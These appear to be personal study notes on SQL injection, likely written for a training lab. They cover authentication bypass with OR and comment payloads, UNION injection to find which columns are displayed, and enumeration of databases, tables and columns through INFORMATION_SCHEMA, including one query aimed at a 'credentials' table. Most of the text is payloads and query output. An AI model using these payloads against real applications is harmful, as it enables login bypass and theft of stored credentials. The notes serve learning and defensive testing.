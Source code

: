 ### <span style=color:black>Auth Bypass with OR operator</span>
```sql!
tom' OR '1' = '1
```
```sql!
SELECT * FROM logins WHERE username = 'tom' OR '1' = '1' AND password = 'ANYPASSWORD';
```
### <span style=color:black>Auth Bypass with comments</span>
```sql!
123' OR id=5)-- -
```
```sql!
SELECT * FROM logins WHERE (username = '123' OR id=5)--' AND id>1) AND password = '202cb962ac59075b964b07152d234b70';
```
#### <span style=color:blue>This method try to exploit (Perimeter), such as : ' and )</span>

### <span style=color:red>**Union Un-even Columns**</span>
```sql!
MariaDB [employees]> DESCRIBE departments;
+-----------+-------------+------+-----+---------+-------+
| Field     | Type        | Null | Key | Default | Extra |
+-----------+-------------+------+-----+---------+-------+
| dept_no   | char(4)     | NO   | PRI | NULL    |       |
| dept_name | varchar(40) | NO   | UNI | NULL    |       |
+-----------+-------------+------+-----+---------+-------+

MariaDB [employees]> DESCRIBE employees;
+------------+---------------+------+-----+---------+-------+
| Field      | Type          | Null | Key | Default | Extra |
+------------+---------------+------+-----+---------+-------+
| emp_no     | int(11)       | NO   | PRI | NULL    |       |
| birth_date | date          | NO   |     | NULL    |       |
| first_name | varchar(14)   | NO   |     | NULL    |       |
| last_name  | varchar(16)   | NO   |     | NULL    |       |
| gender     | enum('M','F') | NO   |     | NULL    |       |
| hire_date  | date          | NO   |     | NULL    |       |
+------------+---------------+------+-----+---------+-------+

MariaDB [employees]> SELECT dept_no, dept_name, NULL, NULL, NULL, NULL FROM departments UNION SELECT * FROM employees LIMIT 15;
+---------+--------------------+---------+-------------+------+------------+
| dept_no | dept_name          | NULL    | NULL        | NULL | NULL       |
+---------+--------------------+---------+-------------+------+------------+
| d009    | Customer Service   | NULL    | NULL        | NULL | NULL       |
| d005    | Development        | NULL    | NULL        | NULL | NULL       |
| d002    | Finance            | NULL    | NULL        | NULL | NULL       |
| d003    | Human Resources    | NULL    | NULL        | NULL | NULL       |
| d001    | Marketing          | NULL    | NULL        | NULL | NULL       |
| d004    | Production         | NULL    | NULL        | NULL | NULL       |
| d006    | Quality Management | NULL    | NULL        | NULL | NULL       |
| d008    | Research           | NULL    | NULL        | NULL | NULL       |
| d007    | Sales              | NULL    | NULL        | NULL | NULL       |
| 10001   | 1953-09-02         | Georgi  | Facello     | M    | 1986-06-26 |
| 10002   | 1952-12-03         | Vivian  | Billawala   | F    | 1986-12-11 |
| 10003   | 1959-06-16         | Temple  | Lukaszewicz | M    | 1992-07-04 |
| 10004   | 1956-11-06         | Masanao | Rahimi      | M    | 1986-12-16 |
| 10005   | 1962-12-11         | Sanjay  | Danlos      | M    | 1985-08-01 |
| 10006   | 1963-12-30         | Marie   | Stafford    | M    | 1988-10-10 |
+---------+--------------------+---------+-------------+------+------------+
```
### Union Injection
We need to determine which columns are printed to the page, to determine where to place our injection.
```sql!
cn' UNION select 1,2,3,4-- -
```

```sql!
cn' UNION select 1,user(),3,4-- -
```


### Database Enumeration
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```
- The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

### MySQL Fingerprinting
#### INFORMATION_SCHEMA Database
1. List of databases
2. List of tables within each database
3. List of columns within each table

### SCHEMATA
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

---
```sql!
cn' UNION select 1,database(),2,3-- -
```
![](https://hackmd.io/_uploads/ryq6hYx6h.png)

---
### SCHEMATA.TABLES
The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to.
```sql!
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
![](https://hackmd.io/_uploads/H1UlIte6n.png)

---
### SCHEMATA.COLUMNS
The COLUMNS table contains information about all columns present in all the databases.
```sql!
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
![](https://hackmd.io/_uploads/Hy0VIKxp3.png)


